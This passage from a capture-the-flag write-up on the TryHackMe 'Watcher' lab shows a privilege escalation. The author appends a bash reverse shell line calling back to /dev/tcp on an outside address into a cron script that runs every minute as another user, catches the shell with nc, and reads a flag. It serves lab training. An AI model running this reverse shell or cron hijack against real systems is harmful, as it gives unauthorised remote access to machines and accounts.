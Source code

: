 ```
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```

`*/1 * * * * mat /home/toby/jobs/cow.sh`: `mat` user automatically execute the `cow.sh` for every minute within `mat`'s privilge → Let’s see what does the `cow.sh` do:

```
toby@watcher:~$ cd jobs
cd jobs
toby@watcher:~/jobs$ ls -l
ls -l
total 4
-rwxr-xr-x 1 toby toby 46 Dec  3  2020 cow.sh
toby@watcher:~/jobs$ cat cow.sh
cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```

It’s a **bash** binary → I can inject another reverse shell into it:

```
toby@watcher:~/jobs$ echo "bash -i >& /dev/tcp/10.9.63.75/4445 0>&1" >> cow.sh
```

Then start another listener on local machine with the specified port and wait for a minute:

```
┌──(kali㉿kali)-[~/TryHackMe/Watcher]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.204.165] 56740
bash: cannot set terminal process group (2306): Inappropriate ioctl for device
bash: no job control in this shell
mat@watcher:~$
```

OK! I’m `mat` user now → Get the flag 5:

```
mat@watcher:~$ ls -l
ls -l
total 280
-rw-r--r-- 1 mat  mat  270433 Dec  3  2020 cow.jpg
-rw------- 1 mat  mat      37 Dec  3  2020 flag_5.txt
-rw-r--r-- 1 will will    141 Dec  3  2020 note.txt
drwxrwxr-x 2 will will   4096 Dec  3  2020 scripts
mat@watcher:~$ cat flag_5.txt
cat flag_5.txt
FLAG{REDACTED}
```

## Flag 6
